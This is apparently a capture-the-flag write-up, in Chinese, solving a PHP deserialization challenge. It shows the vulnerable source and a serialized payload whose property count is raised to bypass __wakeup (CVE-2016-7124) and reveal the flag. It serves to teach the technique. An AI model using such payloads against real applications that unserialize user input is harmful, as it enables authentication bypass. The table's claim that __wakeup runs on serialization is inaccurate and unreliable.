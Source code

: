 ## 進去就看到他給的php
```php
<?php

header("Content-type:text/html;charset=utf-8");
error_reporting(0);
show_source("class.php");

class HaHaHa{


        public $admin;
        public $passwd;

        public function __construct(){
            $this->admin ="user";
            $this->passwd = "123456";
        }

        public function __wakeup(){
            $this->passwd = sha1($this->passwd);
        }

        public function __destruct(){
            if($this->admin === "admin" && $this->passwd === "wllm"){
                include("flag.php");
                echo $flag;
            }else{
                echo $this->passwd;
                echo "No wake up";
            }
        }
    }

$Letmeseesee = $_GET['p'];
unserialize($Letmeseesee);
?>
```
## `HaHaHa`在創建時給定`admin`和`passwd`的值 -> 先把它們的值改了再做序列化

### 得到`O:6:"HaHaHa":2:{s:5:"admin";s:5:"admin";s:6:"passwd";s:4:"wllm";}` 

## 把這個當p存入 -> `no wake up`

## 要把属性数目改大`__wakeup`才會失效

# `O:6:"HaHaHa":2:` -改成->`O:6:"HaHaHa":3:`

|知識點||
|----|-----|
|# 绕过wakeup的重點| **成员属性数目大于实际数目时可绕过wakeup方法(CVE-2016-7124)**|
|__construct|創建時自動用|
|__destruct|結束時自動用|
|__wakeup|序列化時候會自動用|
|sha1()|是一種不可逆加密算法|
